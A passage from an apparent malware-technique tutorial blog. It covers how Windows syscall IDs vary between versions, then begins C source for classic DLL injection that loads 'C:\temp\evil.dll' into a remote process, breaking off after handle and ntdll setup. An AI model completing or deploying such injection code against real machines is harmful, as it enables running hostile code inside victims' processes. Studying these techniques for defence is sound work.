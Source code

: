 But, it is important to be aware that sycall IDs will differ depending on the OS (e.g. `Windows 10` vs `Windows 7` or `Windows 11`) and within the version itself (e.g. `Windows 10 1903` vs `Windows 10 1809`):     

![trick](/assets/images/99/2023-06-08_11-26.png){:class="img-responsive"}      

### practical example

Let's go see a real example. Just take a look at an example that is similar to the example from my post about [classic DLL injection](/tutorial/2021/09/20/malware-injection-2.html):       

```cpp
/*
hack.c
classic DLL injection example
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

#pragma comment(lib, "ntdll")

typedef NTSTATUS(NTAPI* pNtAllocateVirtualMemory)(
  HANDLE             ProcessHandle,
  PVOID              *BaseAddress,
  ULONG              ZeroBits,
  PULONG             RegionSize,
  ULONG              AllocationType,
  ULONG              Protect
);

char evilDLL[] = "C:\\temp\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  // handle to kernel32 and pass it to GetProcAddress
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  HMODULE ntdll = GetModuleHandle("ntdll");
```